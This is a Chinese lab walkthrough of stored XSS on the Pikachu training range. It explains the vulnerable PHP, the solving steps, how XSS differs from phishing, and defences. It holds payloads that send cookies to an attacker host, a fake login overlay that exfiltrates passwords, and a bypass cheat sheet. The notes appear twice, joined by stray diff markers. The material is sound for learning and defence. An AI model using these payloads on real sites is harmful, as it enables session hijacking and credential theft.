

# 存储型 XSS 完全笔记：实战、做题方法，以及它和钓鱼的本质区别
> 这篇把三件事放在一起：**这一关怎么打**、**这类题怎么做**、**它和"钓鱼"到底差在哪**。
>
> 先把结论放这儿：
>
> **XSS 偷的是 Cookie，结果是"冒充你"；钓鱼骗的是密码，结果是"拿到你的钥匙"。**
---
## 一、这关是什么
一个留言板。
```
┌────────────────────────────┐
│ 我是一个留言板：            │
│ ┌────────────────────────┐ │
│ │ (文本域)                │ │
│ └────────────────────────┘ │
│ [submit]                   │
│                            │
│ 留言列表：                  │
│  留言内容……        删除     │
└────────────────────────────┘
```
和前面两关最大的不同：
| | 反射型 | 存储型 |
| --- | --- | --- |
| 提交后去哪 | 直接拼回页面，看完就没 | **存进数据库** |
| 谁能看到 | 只有提交的人 | **所有访问页面的人** |
## 二、源码：漏洞在哪
### 2.1 存
```php
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
}
```
`escape()` 做的是 **SQL 转义**（防注入），**不是 HTML 转义**。
所以 `<script>` 原样存进了数据库。
### 2.2 取
```php
$query="select * from message";
$result=execute($link, $query);
while($data=mysqli_fetch_assoc($result)){
    echo "<p class='con'>{$data['content']}</p><a href='xss_stored.php?id={$data['id']}'>删除</a>";
}
```
`{$data['content']}` 被**原样**输出到 HTML 里。
### 2.3 完整链路

**一次提交，永久生效。**
## 三、完整实战
### 3.1 第一次尝试：用 body 背景变红
提交：
```html
<script>document.body.style.background='red'</script>
```
结果：**页面没有任何变化。**
留言列表里只多了一条：
```
留言列表：
删除
```
留言内容那行是**空的**——因为 `<script>` 标签不显示文字。
### 3.2 别急着下结论，先看服务器返回了什么
我直接请求了一次页面，把 HTML 抓下来：
```html
<p class='con'><script>document.body.style.background='red'</script></p><a href='xss_stored.php?id=56'>删除</a>
```
**`<script>` 原封不动地在里面。**
@@ -109,243 +96,386 @@
2. 页面原样输出了
3. 浏览器确实拿到了这段代码
那为什么不红？
### 3.3 真正原因：CSS 把红色挡住了
Pikachu 用的 Ace 模板，布局是这样的：
```
body                     ← 我改的是它
└── .main-container        （白色）
    └── .main-content
        └── .page-content  ← 白色，铺满内容区
```
关键 CSS：
```css
.page-content {
    background-color: #FFF;    /* 白色 */
    position: relative;        /* 盖在上面 */
}
```
**`.page-content` 是白色、铺满、且在 body 上面。**
我把 body 改成红色，红色在它后面，完全被遮住。
> **不是没执行，是执行了看不见。**
### 3.4 换一个 payload：直接改那个白色 div
```html
<script>document.querySelector('.page-content').style.background='red'</script>
```
- `document.querySelector('.page-content')` → 找到那个白色 div
- `.style.background='red'` → 改它的背景
提交后，**整个内容区变红。**
### 3.5 验证一：刷新还在吗
按 `F5`。
**还是红的** → 说明 payload 不在浏览器里，而在数据库里。
### 3.6 验证二：别人也会中招吗
按 `Ctrl + Shift + N` 开无痕窗口，访问：
```
http://pikachu/vul/xss/xss_stored.php
```
**不用登录、什么都不做，页面直接变红。**
这才是存储型的核心：
> **不需要骗人点链接，谁走过来谁中招。**
---
## 四、存储型 XSS 的做题方法
这一类题（留言板、评论、昵称、个人签名、文件说明……）都有共同套路。
### 步骤 1：找输入点
凡是**提交后会被展示**的地方，都是候选：
| 位置 | 说明 |
| --- | --- |
| 留言板 / 评论区 | 最经典 |
| 用户名 / 昵称 | 注册时就写入 |
| 个人签名 / 简介 | 个人主页展示 |
| 文件描述 / 标签 | 上传后展示 |
| 搜索历史 | 有些会保存 |
### 步骤 2：先测探针，别急着上 payload
提交：
```html
<b>abc</b>
```
看页面怎么显示：
| 显示 | 含义 |
| --- | --- |
| **abc**（加粗） | 尖括号活着 ✅ |
| `<b>abc</b>`（连尖括号一起） | 被转义 ❌ |
**为什么用 `<b>`？** 它加粗后一眼能看出来，没有副作用，而且很少有网站会过滤它。
### 步骤 3：验证"持久性"
按 `F5` 刷新。
| 结果 | 含义 |
| --- | --- |
| **还在** | 存进数据库了 → **存储型** |
| 没了 | 只是反射，看完就消失 |
这一步是判断"存储型还是反射型"的唯一标准。
### 步骤 4：验证"影响范围"
| 方法 | 说明 |
| --- | --- |
| 无痕窗口 | 最方便，`Ctrl + Shift + N` |
| 换一个浏览器 | 更彻底 |
| 换一个账号 | 看是否跨账号 |
如果都中招 → **所有人都会执行你的代码**。
### 步骤 5：构造真实利用
到这一步才是真正的攻击：
| 目标 | payload |
| --- | --- |
| 偷 Cookie | `<script>new Image().src='http://你的服务器/?c='+document.cookie</script>` |
| 钓鱼密码 | 插入一个覆盖全屏的假登录框 |
| 打后台 | 管理员查看留言时自动执行，借他的权限操作 |
### 存储型题目的三个常见坑
| 坑 | 说明 |
| --- | --- |
| **页面没变化** | 可能被 CSS 遮住了，或者 payload 的效果本身不可见 |
| **有富文本过滤** | 先试哪些标签能过（``、`<svg>` 常见） |
| **延迟触发** | 有些留言需要审核后才展示 |
---
## 五、三种 XSS 的对比
| | 反射型 | 存储型 | DOM 型 |
| --- | --- | --- | --- |
| payload 存哪 | 不存 | **数据库** | 不存 |
| 谁解析 | 服务器 | 服务器 | **浏览器端 JS** |
| 影响范围 | 点链接的人 | **所有人** | 点链接的人 |
| 攻击者要做什么 | 骗点击 | **什么都不用做** | 骗点击 |
| 危害 | 中 | **高** | 中 |
**存储型危害最高的原因只有一条：它不需要"投递"这一步。**
反射型要骗你点，存储型等着你自己走进来。
---
## 六、偷 Cookie 和钓鱼：本质区别
这是最容易混的两个概念。
### 6.1 先看 Cookie 里有什么
用这个 payload 把 Cookie 显示出来：
```html
<script>document.querySelector('.xsss_title').innerText=document.cookie</script>
```
你会看到：
```
PHPSESSID=9i7cuvo1obbo32ailq0761v65s; ant[uname]=admin; ant[pw]=10470c3b4b1fed12...
```
| 内容 | 是什么 |
| --- | --- |
| `PHPSESSID` | 会话 ID，服务器靠它认人 |
| `ant[uname]` | 用户名 |
| `ant[pw]` | 密码的哈希，**不是明文** |
**注意：密码本身不在 Cookie 里。**
### 6.2 XSS 偷 Cookie 做的是什么
**拿到 Cookie = 冒充你登录，不需要知道密码。**
打个比方：
> Cookie 就像**酒店房卡**。
>
> - 房卡不是钥匙，也不是你的身份证
> - 但拿着它就能刷开你的房间
> - 小偷不需要知道钥匙怎么配的
把 `PHPSESSID` 塞进自己的浏览器，服务器一看："是你啊，请进。" —— 它不会再问密码。
这在安全领域有个专门的词：**会话劫持（Session Hijacking）**。
### 6.3 钓鱼做的是什么
钓鱼不碰技术漏洞，它骗的是**人**。
典型场景：
> "您的登录已过期，请重新登录。"
>
> 你看到一个和真网站一模一样的登录框，老老实实输入了账号密码。
**攻击者拿到的是明文密码。**
XSS 也能做这件事——在页面里插入一个假登录框：
```html
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:#fff;z-index:9999">
  <h2>登录已过期，请重新登录</h2>
  <input id="u" placeholder="用户名">
  <input id="p" type="password" placeholder="密码">
  <button onclick="new Image().src='http://攻击者IP/?u='+u.value+'&p='+p.value">登录</button>
</div>
```
用户以为是真的，输完点一下——**账号密码直接发走。**
### 6.4 一张表说清区别
| 维度 | XSS 偷 Cookie | 钓鱼 |
| --- | --- | --- |
| **攻击目标** | 会话凭证 | 明文密码 |
| **技术含量** | 需要漏洞 | 不需要漏洞，骗人就行 |
| **需要用户做什么** | 打开页面即可 | **必须真的输入密码** |
| **拿到后能做什么** | 冒充登录 | 长期控制账号 |
| **持续时间** | 到会话过期 | 到用户改密码 |
| **能不能被 2FA 挡** | 部分能 | 通常能 |
| **防御重点** | HttpOnly、CSP、输出转义 | 用户教育、域名核对、2FA |
**一句话区分**：
> **偷 Cookie = 不用密码也能进。**
> **钓鱼 = 让你自己把密码交出来。**
### 6.5 两者其实是互补的
| 场景 | 用哪个 |
| --- | --- |
| 只想快速进后台看一眼 | 偷 Cookie |
@@ -353,11 +483,11 @@
| 用户开了二次验证 | 偷 Cookie 有时能绕过 |
| 会话短、频繁失效 | 钓鱼更划算 |
真实攻击里，两者经常一起用：
1. 先用 XSS 偷 Cookie，摸清系统结构
2. 再插一个钓鱼框，拿到长期密码
3. 或者用 XSS 直接以管理员身份操作，连密码都不用
### 6.6 一个常见误解
@@ -365,126 +495,129 @@
**错。**
Cookie 里只有会话 ID 和密码的哈希。哈希是单向的，不能还原成密码（除非密码本身很弱，能被撞库）。
**所以"偷 Cookie"和"知道密码"是两件完全不同的事。**
---
## 七、危害有多大
| 场景 | 后果 |
| --- | --- |
| 留言板被植入 | 每个访客的 Cookie 被发走 |
| 管理员看到留言 | 管理员会话被劫持，后台失守 |
| 内容自动复制 | 变成**蠕虫**，指数级扩散 |
现实案例：
- **2005 年 MySpace Samy 蠕虫**：20 小时感染超过 100 万用户主页
- **2011 年新浪微博蠕虫**：用户点开微博后自动转发、自动关注
两次用的都是最基础的 `<script>` 注入。
---
## 八、防御怎么写
### 8.1 输出转义（核心）
```php
while($data=mysqli_fetch_assoc($result)){
    $content = htmlspecialchars($data['content'], ENT_QUOTES, 'UTF-8');
    echo "<p class='con'>{$content}</p>";
}
```
### 8.2 三层配合
| 层 | 做法 | 作用 |
| --- | --- | --- |
| 输出编码 | `htmlspecialchars()` | 阻止代码执行 |
| Cookie 保护 | `HttpOnly` | 让 JS 读不到 Cookie |
| CSP | `Content-Security-Policy` | 禁止内联脚本 |
### 8.3 存储型多一条
| 措施 | 说明 |
| --- | --- |
| 输出时必须转义 | 数据库里可能已有历史脏数据，不能只靠输入时过滤 |
| 富文本白名单 | 真要允许 HTML，只放行安全标签和属性 |
---
## 九、我学到了什么
### 9.1 "没反应"和"没成功"是两件事
这次差点误判。payload 明明执行了，只是效果被 CSS 遮住。
**判断标准应该是「HTML 里的标签原不原样」，不是「页面变没变」。**
### 9.2 存储型的杀伤力在于"零投递"
反射型要骗人点，存储型不用。
**它是唯一一种"不需要接触受害者"就能生效的 XSS。**
### 9.3 Cookie 不是密码本
Cookie 里是会话凭证，不是密码。
偷 Cookie 的价值在于"冒充"，不在于"知道密码"。
### 9.4 真正的攻击代码是无声的
改颜色、弹窗、换图——这些都是"我执行成功了"的证明。
真实的攻击代码长这样：
```html
<script>new Image().src='http://攻击者/?c='+document.cookie</script>
```
**页面上什么都看不到，但东西已经走了。**
### 9.5 一个额外发现
源码里作者自己留了注释：
```php
//彩蛋:虽然这是个存储型xss的页面,但这里有个delete的sql注入
$query="delete from message where id={$_GET['id']}";
```
那个「删除」链接 `xss_stored.php?id=1`，其实还有个 SQL 注入。等学到 SQL 注入模块可以回来看。
---
## 十、下一步
- [x] 反射型xss(get)
- [x] 反射型xss(post)
- [x] 存储型xss
- [ ] DOM型xss ← 下一关
- [ ] DOM型xss-x
- [ ] xss之盲打、过滤、htmlspecialchars、href输出、js输出
DOM 型的特点：**服务器完全不参与**，是前端 JS 自己把地址栏的内容拼进了页面。
---
## 参考
- [Pikachu 源码](https://github.com/zhuifengshaonianhanlu/pikachu)
- [OWASP: Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [OWASP: XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [MDN: document.cookie](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie)
---
**一句话总结**：
> **存储型：写一次，所有人中招。**
> **偷 Cookie：不用密码也能进。**
> **钓鱼：让你自己把密码交出来。**
@@ -1,104 +1,91 @@
# 存储型 XSS 通关笔记
> 记录三件事：**我这一关是怎么一步步做出来的**、**涉及的知识点和笔记**、**它和前两关（反射型 get / post）以及"钓鱼攻击"的区别**。
>
> 纯 Markdown，无图片，GitHub 直接渲染。
---
## 目录
1. 环境与目标
2. 我的解题步骤
3. 这道题的原理（源码分析）
4. 知识点与笔记
5. 和前两关的对比
6. 和钓鱼攻击的区别
7. 这类题的通用做题方法
8. 防御怎么写
9. 总结
---
## 一、环境与目标
| 项目 | 内容 |
| --- | --- |
| 靶场 | Pikachu |
| 运行环境 | phpStudy（Apache 2.4.39 + MySQL 5.7.26 + PHP 7.3.4 NTS） |
| 访问方式 | `http://pikachu/` |
| 关卡位置 | Cross-Site Scripting → 存储型xss |
| 页面地址 | `http://pikachu/vul/xss/xss_stored.php` |
| 目标 | 让页面执行自己写的 JavaScript，并且**让它留在服务器上** |
页面是一个留言板：
```
我是一个留言板：
┌──────────────────────────┐
│                          │   ← textarea，写留言
└──────────────────────────┘
[submit]
留言列表：
  留言内容……          删除
```
---
## 二、我的解题步骤
### 步骤 0：先看页面是干什么的
一个留言板，提交后留言会显示在下方列表里。
和前面两关最大的不同：**这里的留言会保存下来**，刷新页面还在。
### 步骤 1：第一次尝试——把页面背景改成红色
在文本框里输入：
```html
<script>document.body.style.background='red'</script>
```
思路很简单：`document.body.style.background` 是改页面背景色的，如果执行了，页面应该变红。
点 submit。
### 步骤 2：页面没变红
结果：
```
留言列表：
删除
```
留言多了一条，**但页面没有任何变化**。
留言内容那行是**空的**——因为 `<script>` 标签本身不显示文字。
### 步骤 3：抓服务器返回的 HTML，确认代码在不在
没有继续瞎猜，直接请求了一次页面，把 HTML 抓下来看：
```html
<p class='con'><script>document.body.style.background='red'</script></p>
<a href='xss_stored.php?id=56'>删除</a>
```
**`<script>` 原封不动地在里面。**
@@ -109,243 +96,386 @@
2. 页面原样输出了
3. 浏览器确实拿到了这段代码
**那为什么不红？**
### 步骤 4：定位原因——CSS 把红色挡住了
去看页面的模板结构（Pikachu 用的是 Ace 模板）：
```
body                       ← 我改的是它的背景
└── .main-container          （白色背景）
    └── .main-content
        └── .page-content    ← 白色背景，铺满内容区
```
关键 CSS：
```css
.page-content {
    background-color: #FFF;
    position: relative;
}
```
`.page-content` 是**白色、铺满、且盖在 body 上面**的。
我把 body 改成红色，红色在它**后面**，被完全遮住了。
> **不是代码没执行，是执行了但看不见。**
### 步骤 5：换一个 payload——直接改那层白色 div
```html
<script>document.querySelector('.page-content').style.background='red'</script>
```
拆开看：
| 部分 | 作用 |
| --- | --- |
| `document.querySelector('.page-content')` | 找到那个白色 div |
| `.style.background='red'` | 把它的背景改成红色 |
提交后，**整个内容区变红了。**
### 步骤 6：验证"真的存进数据库了"
按 `F5` 刷新。
**还是红的** → 说明 payload 不在浏览器里，而在服务器数据库里，每次请求都会重新输出。
### 步骤 7：验证"影响所有人"
按 `Ctrl + Shift + N` 开一个无痕窗口，访问：
```
http://pikachu/vul/xss/xss_stored.php
```
**不用登录、什么都不做，页面直接变红。**
这才是存储型的核心证据：
> **不需要骗人点链接，谁走过来谁中招。**
### 步骤 8：进一步验证危害——读 Cookie
改背景色只是"我能执行代码"的证明，不算真正的攻击。
用这个 payload 看看能拿到什么：
```html
<script>document.querySelector('.xsss_title').innerText=document.cookie</script>
```
它把页面上「我是一个留言板：」那行字，替换成当前 Cookie：
```
PHPSESSID=9i7cuvo1obbo32ailq0761v65s; ant[uname]=admin; ant[pw]=10470c3b4b1fed12...
```
**这就是登录凭证。**
### 步骤 9：清理
每条留言后面有「删除」链接，点掉。
否则以后每次打开这个页面都会变红。
---
## 三、这道题的原理（源码分析）
### 3.1 存的时候
```php
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
}
```
`escape()` 做的是 **SQL 转义**（防止 SQL 注入），**不是 HTML 转义**。
所以 `<script>` 原样进了数据库。
### 3.2 取的时候
```php
$query="select * from message";
$result=execute($link, $query);
while($data=mysqli_fetch_assoc($result)){
    echo "<p class='con'>{$data['content']}</p><a href='xss_stored.php?id={$data['id']}'>删除</a>";
}
```
`{$data['content']}` 被**原样**输出到 HTML 里。
### 3.3 完整链路
```
你提交 payload
      ↓
存进数据库（message 表）
      ↓
任何人打开页面
      ↓
服务器原样输出
      ↓
浏览器执行你的代码
```
**一次提交，永久生效。**
---
## 四、知识点与笔记
### 4.1 什么是存储型 XSS
> **攻击者提交的内容被保存到服务器（数据库），之后任何访问该页面的人都会执行这段代码。**
和反射型最大的区别：**内容落地了**。
### 4.2 成立的三个条件
| 条件 | 这关的情况 |
| --- | --- |
| 输入被存储 | 存进 `message` 表 |
| 输出时未转义 | `echo {$data['content']}` |
| 页面会被他人访问 | 留言板本来就是公开的 |
三个缺一不可。
### 4.3 「输入过滤」为什么不够
很多人以为"提交时把 `<script>` 过滤掉"就行了。
问题在于：
1. **黑名单永远能绕过**——``、`<svg>`、`<body onload>`、大小写混写
2. **数据库里可能已有历史脏数据**——改代码前存进去的，改代码后照样输出
3. **不同业务可能共用一份数据**——A 页面过滤了，B 页面直接读取
所以必须**在输出时转义**，而不是只在输入时过滤。
### 4.4 Cookie 里到底有什么
```
PHPSESSID=9i7cuvo1obbo32ailq0761v65s
ant[uname]=admin
ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815
```
| 内容 | 是什么 |
| --- | --- |
| `PHPSESSID` | 会话 ID，服务器靠它认人 |
| `ant[uname]` | 用户名（明文） |
| `ant[pw]` | 密码的哈希（**不是明文**） |
**重点：密码本身不在 Cookie 里。**
哈希是单向的，不能还原成密码（除非密码本身很弱，能被撞库）。
### 4.5 什么叫「会话劫持」
网站的登录状态通常靠 Cookie 维持。服务器收到请求时：
```
看 Cookie 里的 PHPSESSID → 查 session → 知道你是谁 → 放行
```
所以：
> **拿到你的 PHPSESSID，就等于拿到了你的登录状态。**
把别人的 `PHPSESSID` 塞进自己的浏览器，服务器就会认为"这是同一个人"。
安全领域管这叫 **会话劫持（Session Hijacking）**。
### 4.6 `document.cookie` 能读写什么
```javascript
document.cookie          // 读：返回所有非 HttpOnly 的 Cookie
document.cookie = "a=1"  // 写：可以设置 Cookie
```
**关键限制**：如果 Cookie 设置了 `HttpOnly`，JS 就读不到。
这关的 Cookie **没有** `HttpOnly`，所以能被读走。
### 4.7 为什么"页面没变化"不能说明失败
这关我差点误判。
`<script>` 标签：
- 不显示任何文字
- 执行了也可能没有可见效果（比如被 CSS 遮挡）
**判断标准应该是「HTML 里的标签是不是原样的」，而不是「页面变没变」。**
---
## 五、和前两关的对比
### 5.1 三关总表
| 维度 | 反射型（GET） | 反射型（POST） | 存储型 |
| --- | --- | --- | --- |
| **参数位置** | URL 查询字符串 | 请求体 | 请求体（留言内容） |
| **是否存储** | 否 | 否 | **是（数据库）** |
| **谁解析 payload** | 服务器 | 服务器 | 服务器 |
| **影响对象** | 点了链接的人 | 打开恶意页面的人 | **所有访问页面的人** |
| **攻击者需要做什么** | 发一条链接 | 做一个自动提交的表单页 | **什么都不用做** |
| **投递成本** | 低 | 中 | **零** |
| **是否需要登录** | 不需要 | 需要 | 不需要 |
| **输入长度限制** | 有（`maxlength="20"`） | 无 | 无（textarea） |
| **持续时间** | 一次 | 一次 | **直到被删除** |
| **危害等级** | 中 | 中 | **高** |
| **典型场景** | 搜索框回显 | 登录后的操作页 | 留言板 / 评论 / 昵称 |
### 5.2 三者的攻击链对比
**反射型 GET：**
```
攻击者构造带 payload 的 URL
        ↓
发给受害者
        ↓
受害者点击
        ↓
payload 在他的浏览器执行
```
**反射型 POST：**
```
攻击者做一个自动提交表单的页面
        ↓
发给受害者
        ↓
受害者打开页面 → 表单自动提交
        ↓
payload 在他的浏览器执行
```
**存储型：**
```
攻击者提交一次 payload
        ↓
存进数据库
        ↓
（等待）
        ↓
任何人打开这个页面
        ↓
payload 自动执行
```
**差别在哪：** 前两个都需要"把 payload 送到受害者面前"，存储型不需要——**它躺在那儿等人来**。
### 5.3 为什么存储型最危险
| 原因 | 说明 |
| --- | --- |
| **零投递** | 不需要接触受害者，不需要骗他点击 |
| **持续生效** | 一次写入，长期有效，除非被删除 |
| **影响面大** | 所有访客，包括管理员 |
| **可蠕虫化** | 内容能被自动复制传播 |
现实案例：
- **2005 年 MySpace Samy 蠕虫**：20 小时感染超过 100 万用户主页
- **2011 年新浪微博蠕虫**：用户点开微博后自动转发、自动关注
用的都是最基础的 `<script>` 注入。
### 5.4 三关的代码差别其实很小
| 关卡 | 取值 | 输出 |
| --- | --- | --- |
| 反射型 GET | `$_GET['message']` | 直接拼接 |
| 反射型 POST | `$_POST['message']` | 直接拼接 |
| 存储型 | 先 `insert` 再 `select` | 直接拼接 |
**漏洞的本质完全一样：输出时没有转义。**
区别只在于"内容有没有被存下来"。
---
## 六、和钓鱼攻击的区别
这是最容易混的地方，单独说清楚。
### 6.1 钓鱼是什么
钓鱼（Phishing）**不依赖任何技术漏洞**，它骗的是**人**。
典型场景：
> "您的登录已过期，请重新登录。"
>
> 你看到一个和真网站一模一样的登录框，老老实实输入账号密码。
**攻击者拿到的是明文密码。**
### 6.2 核心区别
| 维度 | XSS（偷 Cookie） | 钓鱼 |
| --- | --- | --- |
| **攻击目标** | 会话凭证（Cookie） | 明文密码 |
| **依赖漏洞吗** | 需要 XSS 漏洞 | 不需要，骗人就行 |
| **用户要做什么** | 打开页面即可 | **必须真的输入密码** |
| **拿到后能做什么** | 冒充登录 | 长期控制账号 |
| **持续时间** | 到会话过期 | 到用户改密码 |
| **能不能被二次验证挡住** | 部分能 | 通常能 |
| **防御重点** | HttpOnly、CSP、输出转义 | 用户教育、域名核对、2FA |
**一句话区分：**
> **偷 Cookie = 不用密码也能进。**
> **钓鱼 = 让你自己把密码交出来。**
### 6.3 为什么容易混
因为两者都能"拿到账号"。
但拿到的**东西不一样**：
- 偷 Cookie 拿到的是**房卡**——能进房间，但不知道钥匙怎么配的
- 钓鱼拿到的是**钥匙**——可以随时自己开门
### 6.4 XSS 也能用来钓鱼
这两者不是互斥的，可以结合。
用 XSS 在页面里插入一个覆盖全屏的假登录框：
```html
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:#fff;z-index:9999">
  <h2>登录已过期，请重新登录</h2>
  <input id="u" placeholder="用户名">
  <input id="p" type="password" placeholder="密码">
  <button onclick="new Image().src='http://攻击者IP/?u='+u.value+'&p='+p.value">
    登录
  </button>
</div>
```
用户看到的是：一个正常的登录框，还提示"会话过期了"。
他老老实实输了密码，点"登录"——**账号密码直接发到攻击者服务器。**
**这时候攻击者才真正"知道密码"。**
### 6.5 两者互补
| 场景 | 用哪个 |
| --- | --- |
| 只想快速进后台看一眼 | 偷 Cookie |
@@ -353,11 +483,11 @@
| 用户开了二次验证 | 偷 Cookie 有时能绕过 |
| 会话短、频繁失效 | 钓鱼更划算 |
真实攻击里经常一起用：
1. 先用 XSS 偷 Cookie，摸清系统结构
2. 再插钓鱼框，拿到长期密码
3. 或者直接用 XSS 以管理员身份操作，连密码都不用
### 6.6 一个常见误解
@@ -365,126 +495,129 @@
**错。**
Cookie 里只有会话 ID 和密码哈希。哈希是单向的，不能还原成密码。
**"偷 Cookie"和"知道密码"是两件完全不同的事。**
---
## 七、这类题的通用做题方法
留言板、评论区、昵称、个人签名、文件描述……套路一样。
### 7.1 五步法
| 步骤 | 做什么 |
| --- | --- |
| **1. 找输入点** | 留言板、评论、昵称、签名、文件说明——凡是"提交后会被展示"的地方 |
| **2. 测探针** | 先提交 `<b>abc</b>`，看页面是加粗还是显示尖括号 |
| **3. 验证持久** | 按 F5，还在 → 存进数据库了 |
| **4. 验证范围** | 无痕窗口 / 换浏览器 / 换账号，看是否都中招 |
| **5. 构造利用** | 偷 Cookie / 钓鱼框 / 打后台 |
### 7.2 第二步为什么用 `<b>`
| 页面显示 | 含义 |
| --- | --- |
| **abc**（加粗） | 标签被解析 ✅ 有戏 |
| `<b>abc</b>`（连尖括号） | 被转义 ❌ 换思路 |
`<b>` 加粗后一眼能看出来，没有副作用，而且很少有网站会过滤它。
### 7.3 三个常见坑
| 坑 | 说明 |
| --- | --- |
| **页面没变化** | 可能被 CSS 遮挡（就像这关），或效果本身不可见 |
| **有富文本过滤** | 换 ``、`<svg>`、`<body onload>` 试 |
| **延迟触发** | 有些留言需要审核后才展示 |
### 7.4 payload 小抄
| payload | 作用 | 何时用 |
| --- | --- | --- |
| `<b>test</b>` | 只加粗 | 探测过滤（第一步） |
| `<script>alert(1)</script>` | 标准弹窗 | 没有过滤 |
| `` | 借坏图片弹窗 | `script` 被过滤 |
| `<svg/onload=alert(1)>` | SVG 加载执行 | 需要更短 |
| `<script>document.querySelector('.page-content').style.background='red'</script>` | 内容区变红 | 弹窗被静音 |
| `<script>document.title='XSS'</script>` | 改标签标题 | 同上 |
| `<script>document.querySelector('.xsss_title').innerText=document.cookie</script>` | 显示 Cookie | 验证危害 |
| `<script>new Image().src='http://你的IP/?c='+document.cookie</script>` | 外带 Cookie | 真实利用 |
---
## 八、防御怎么写
### 8.1 核心：输出转义
```php
while($data=mysqli_fetch_assoc($result)){
    $content = htmlspecialchars($data['content'], ENT_QUOTES, 'UTF-8');
    echo "<p class='con'>{$content}</p>";
    echo "<a href='xss_stored.php?id=".intval($data['id'])."'>删除</a>";
}
```
转义后 `<` 变成 `&lt;`，浏览器只当文字显示。
### 8.2 三层配合
| 层 | 做法 | 作用 |
| --- | --- | --- |
| **输出编码** | `htmlspecialchars()` | 阻止代码执行 |
| **Cookie 保护** | `HttpOnly` | 让 JS 读不到 Cookie |
| **CSP** | `Content-Security-Policy` | 禁止内联脚本执行 |
### 8.3 存储型额外要注意的
| 措施 | 说明 |
| --- | --- |
| 输出时必须转义 | 数据库里可能已有历史脏数据，不能只靠输入时过滤 |
| 富文本用白名单 | 真要允许 HTML，只放行安全的标签和属性 |
| 定期清理 | 排查存量恶意内容 |
### 8.4 为什么输入过滤不能当主力
| 被拦的 | 换成 |
| --- | --- |
| `<script>` | `` |
| `` | `<svg onload=>` |
| `<svg>` | `<body onload=>` |
| 小写 `script` | `<ScRiPt>` |
**输入过滤是辅助，输出转义才是根本。**
---
## 九、总结
### 9.1 这关我学到的五件事
| # | 结论 |
| --- | --- |
| 1 | **存储型 = 内容进数据库，所有访客中招** |
| 2 | **「页面没变化」不等于「代码没执行」**——要看 HTML 里的标签原不原样 |
| 3 | **Cookie 不是密码本**——里面只有会话 ID 和哈希，没有明文密码 |
| 4 | **偷 Cookie = 冒充登录**，不需要知道密码 |
| 5 | **钓鱼骗的是密码**，需要用户真的输入，和 XSS 是两条路 |
### 9.2 三关一句话
> **反射型 GET：改个网址就能打。**
> **反射型 POST：网址改不了，写个小网页自动提交。**
> **存储型：写一次，所有人都中招。**
### 9.3 和钓鱼一句话
> **偷 Cookie：不用密码也能进。**
> **钓鱼：让你自己把密码交出来。**
---
## 参考
- [Pikachu 源码](https://github.com/zhuifengshaonianhanlu/pikachu)
- [OWASP: Types of Cross-Site Scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [OWASP: XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [MDN: document.cookie](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie)
